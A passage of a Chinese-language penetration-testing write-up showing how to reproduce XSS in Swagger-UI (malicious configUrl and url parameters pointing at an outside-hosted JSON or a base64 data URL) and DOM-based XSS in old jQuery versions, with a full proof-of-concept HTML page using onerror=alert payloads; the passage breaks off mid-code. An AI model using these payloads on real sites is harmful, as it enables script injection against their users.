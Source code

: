 然后在Swagger-UI中使用?configUrl=和url参数复现XSS漏洞，加载的类型比如这样：  
```
/swagger-ui.html?configUrl=https://jumpy-floor.surge.sh/test.json
/swagger-ui.html?url=https://jumpy-floor.surge.sh/test.json
/swagger-ui.html?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9leHViZXJhbnQtaWNlLnN1cmdlLnNoL3Rlc3QueWFtbCIKfQ==
```  
  
复现截图：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wglPJSKsjas9Zl6kQBYfgicUibC6CRGPg2ov0Y0qN03WJajcD3S3YtoJlycsMT4OHICAlBoaYQRcdKVYgD7LFeHw/640?wx_fmt=png&from=appmsg "")  
  
  
**2.JQuery框架Dom型XSS**  
  
漏洞场景：  
  
发现网站使用jQuery-js，并且版本与poc匹配。  
  
漏洞复现：  
  
poc中填写目标站点的JQueryjs地址，如图所示：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wglPJSKsjas9Zl6kQBYfgicUibC6CRGPg2D373TmzzmqVNbpjOa5kb5THQxsyoHdu3CQKnbnLNbTsfTkic25OeNXQ/640?wx_fmt=png&from=appmsg "")  
```
<!DOCTYPE html>
<!-- poc请自行复制，保存为html格式 -->
<html lang="zh">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Jquery XSS</title>
    <script type="text/javascript" src="https://***.***.***/js/jquery-easyui-1.5.2/jquery.easyui.min.js"></script>
    <!-- <script type="text/javascript" src="https://cdn.bootcss.com/jquery/1.9.1/jquery.js"></script> -->
    <!-- <script type="text/javascript" src="https://cdn.bootcss.com/jquery/1.11.1/jquery.js"></script> -->
    <!-- <script type="text/javascript" src="https://cdn.bootcss.com/jquery/1.12.1/jquery.js"></script> -->
    <script>
        $(function () {
            // #9521
            // #11290
            $(location.hash);

            // #11974
            $('#bug').on('click', function () {
                $.parseHTML("<img src='z' onerror='alert(\"bug-11974\")'>");
                return false;
            });
        })
</script>
</head>

<body>
    <h1>jQuery with XSS</h1>
    <h2>Demo：</h2>
    <p style="color:red;">Note: Source code changes jQuery version，As long as there is no bullet window, there will be no problem.！</p>
    <ul>
        <li><a href="#<img src=/ onerror=alert(1)>" target="_blank">bug-9521</a> => <a
                href="https://bugs.jquery.com/ticket/9521" target="_blank">ticket</a></li>
        <li><a href="#p[class='<img src=/ onerror=alert(2)>']" target="_blank">bug-11290</a> => <a
                href="https://bugs.jquery.com/ticket/11290" target="_blank">ticket</a></li>
```